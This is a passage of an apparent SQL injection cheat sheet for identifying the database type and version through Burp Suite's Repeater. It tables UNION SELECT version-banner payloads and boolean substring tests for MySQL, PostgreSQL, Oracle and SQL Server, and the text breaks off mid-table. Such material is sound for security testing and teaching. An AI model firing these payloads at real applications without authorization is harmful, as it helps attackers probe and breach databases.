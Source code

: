
<table>
   <thead>
      <tr>
         <th>Database</th>
         <th>Payload (Repeater)</th>
         <th>Expected Output</th>
      </tr>
   </thead>
   <tbody>
      <tr>
         <td><strong>MySQL</strong></td>
         <td><code>1' UNION SELECT 1,@@version,3-- -</code></td>
         <td><code>10.5.8-MariaDB</code></td>
      </tr>
      <tr>
         <td><strong>PostgreSQL</strong></td>
         <td><code>1' UNION SELECT 1,version(),3-- -</code></td>
         <td><code>PostgreSQL 14.2...</code></td>
      </tr>
      <tr>
         <td><strong>Oracle</strong></td>
         <td><code>1' UNION SELECT 1,banner,3 FROM v$version-- -</code></td>
         <td><code>Oracle Database 19c...</code></td>
      </tr>
      <tr>
         <td><strong>SQL Server</strong></td>
         <td><code>1' UNION SELECT 1,@@version,3-- -</code></td>
         <td><code>Microsoft SQL Server 2019...</code></td>
      </tr>
   </tbody>
</table>


**Burp Tip:** Use **"Decoder"** to URL-encode payloads before sending.  

---

## **4. Using Database-Specific Functions**  

<table>
   <thead>
      <tr>
         <th>Database</th>
         <th>Test Payload (Repeater)</th>
         <th>Success Condition</th>
      </tr>
   </thead>
   <tbody>
      <tr>
         <td><strong>MySQL</strong></td>
         <td><code>id=1' AND MID('ABC',1,1)='A'-- -</code></td>
         <td>Returns <code>ABC</code> data</td>
      </tr>
      <tr>
         <td><strong>PostgreSQL</strong></td>
         <td><code>id=1' AND SUBSTRING('ABC',1,1)='A'-- -</code></td>
         <td>Returns <code>ABC</code> data</td>
      </tr>
      <tr>
         <td><strong>Oracle</strong></td>
         <td><code>id=1' AND SUBSTR('ABC',1,1)='A'-- -</code></td>
         <td>Returns <code>ABC</code> data</td>
      </tr>
      <tr>